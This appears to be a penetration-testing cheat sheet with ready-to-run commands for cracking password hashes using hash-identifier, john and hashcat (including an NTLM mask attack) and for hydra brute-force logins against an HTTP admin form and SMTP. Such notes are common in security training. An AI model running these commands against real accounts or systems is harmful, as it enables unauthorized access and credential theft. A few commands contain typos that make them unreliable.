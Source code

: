 # Wordlists
[https://oxasploits.com/posts/wordlists-reprise/](https://oxasploits.com/posts/wordlists-reprise/)

# Password Cracking

```sql
hash-identifier [hash]
```

```sql
john hashes.txt
```

```sql
hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt
```

-   Brute force crack for NTLM hashes with an uppercase, lowercase, lowercase, and 4 digit mask
	```sql
	hashcat -m 1000 dump.txt -o output.txt --remove -a 3 ?u?l?l?d?d?d?d
	```
	
-   List of hash types and examples for hashcat [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
-   [https://hashkiller.co.uk](https://hashkiller.co.uk/) has a good repo of already cracked MD5 and NTLM hashes


## **Bruteforcing:**

```sql
    hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
```

```sql
hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL
```

-   Hydra SMTP Brute force
	```sql
	hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V
	```




